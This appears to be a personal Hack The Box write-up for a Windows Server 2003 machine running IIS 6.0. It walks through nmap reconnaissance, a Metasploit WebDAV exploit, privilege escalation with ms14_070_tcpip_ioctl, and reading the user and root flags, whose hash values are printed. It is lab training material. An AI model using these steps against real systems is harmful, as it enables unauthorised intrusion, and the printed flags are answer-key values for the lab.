

**Start 12:56 14-08**

---
```
10.10.10.14
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.14                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:56 IST
Nmap scan report for 10.10.10.14
Host is up (0.016s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.26 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -p- 10.10.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:56 IST
Nmap scan report for 10.10.10.14
Host is up (0.016s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Wed, 14 Aug 2024 10:58:28 GMT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.54 seconds
```

For this version of `Microsoft IIS httpd 6.0` we've found an exploit:


## Metasploit

There's a `metasploit` module for it:


Configure the options and just run the exploit.

After getting the shell we can `systeminfo` the target:

```powershell
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 17 Minutes, 15 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 762 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,299 MB
Page File: In Use:         171 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

c:\windows\system32\inetsrv>
```

We can now use `metasploit` to look up vulnerabilities for this version, it's called `local_exploit_suggester`.

Configure it to your current session, and then run the exploit afterwards.


From these it appears that `exploit/windows/local/ms14_070_tcpip_ioctl` is most interesting to us.
Let's use it and set up the options. First we'll have to migrate to a process running under `NT AUTHORITY\NETWORK SERVICE` which we can find using `ps` in `meterpreter`.


We'll migrate to `3796`.

```bash
meterpreter > migrate 3796
[*] Migrating from 3848 to 3796...
[*] Migration completed successfully.
meterpreter > 
```

Now we can use the `ms14_070_tcpip_ioctl` exploit.



```bash
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Great, now we can get those flags.

## Flags

==user.txt==
go into `Documents and settings` and from here we can get both flags:


Since I had trouble accessing the files via the `shell` I instead opted for the `meterpreter session`:

```bash
# Failed attempts
C:\>cd "Documents and Settings"
cd "Documents and Settings"

C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.
```

```bash
meterpreter > cat "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5ec67c3cff017f2bedc146a5d869
```

==root.txt==
Same for the `root flag`:

```bash
meterpreter > cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359e905a2c35f861f6a57cecf28bb7b
```


---

**Finished 14:05**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
